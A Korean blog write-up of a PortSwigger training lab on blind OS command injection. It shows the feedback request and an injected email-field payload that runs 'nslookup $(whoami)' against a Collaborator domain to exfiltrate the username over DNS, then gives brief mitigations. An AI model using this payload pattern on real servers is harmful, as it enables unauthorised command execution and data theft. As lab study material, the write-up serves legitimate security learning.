



+++
date = '2026-09-30T21:00:00+09:00'
draft = false
title = "[Write-up] PortSwigger - Blind OS command injection with out-of-band data exfiltration"
summary = "whoami 출력을 DNS 이름에 포함하고 Collaborator에서 실행 사용자 이름을 확인하는 Blind OS Command Injection 풀이"
toc = true
tags = ["OS Command Injection", "Blind OS Command Injection", "PortSwigger", "Practitioner"]
+++

---

## 문제 분석

> **난이도**: `PRACTITIONER`  
> **Lab**: [Blind OS command injection with out-of-band data exfiltration](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)

> 

이 랩의 피드백 기능은 사용자 입력을 포함한 셸 명령을 비동기로 실행한다. 외부 DNS 조회가 가능하므로, `whoami`의 출력을 조회할 도메인 이름에 포함해 실행 사용자 이름을 확인하고 제출하는 것이 목표다.

### OS Command Injection 진단

먼저 피드백 요청을 확인하면 다음과 같다.

```text
POST /feedback/submit HTTP/2
Host: 0a710082038e142f81d36b89003300b1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
...

csrf=G5BJktxB1yuIzLfhx0b5rDmhD3d2YRBo&name=test&email=hacker%40evil-user.net&subject=test&message=test
```

이전 OOB 랩과 같은 피드백 요청이다. 이번에는 `email`에 삽입한 명령의 출력값을 DNS 조회 이름에 포함한다.

---

## 익스플로잇

`$(whoami)`는 셸이 명령을 실행한 뒤 그 출력으로 치환하는 구문이다. 이 값을 Collaborator 도메인의 앞부분에 붙이면 실행 사용자 이름이 조회할 도메인에 포함된다.

```text
POST /feedback/submit HTTP/2
Host: 0a710082038e142f81d36b89003300b1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
...

csrf=G5BJktxB1yuIzLfhx0b5rDmhD3d2YRBo&name=test&email=hacker%40evil-user.net;nslookup+$(whoami).wssc2si5xsp3q3m56mfro0hpmgs7gx4m.oastify.com;&subject=test&message=test
```

요청을 전송한 뒤 Collaborator에 기록된 DNS 조회 이름을 확인하면 앞부분에서 `whoami`의 실행 결과를 읽을 수 있다.



확인한 `peter-OLffNz`를 제출하면 실습이 완료된다.



---

## 정리

`$(whoami)`의 출력이 도메인 이름의 일부가 되면서 DNS 조회에 실행 결과가 함께 실렸다. 이전 OOB 랩에서 명령 실행 여부를 확인했다면, 여기서는 요청에 담긴 값으로 실행 사용자 이름까지 확인했다.

셸의 명령 치환과 외부 통신이 결합된 흐름이다. 대응에서는 입력을 셸 구문으로 해석하는 경로를 제거하고, 서버에 필요한 외부 통신 범위도 제한한다.

유형별 원리와 다른 실습은 [OS Command Injection Lab](/lab/portswigger-os-command-injection/)에 정리했다.
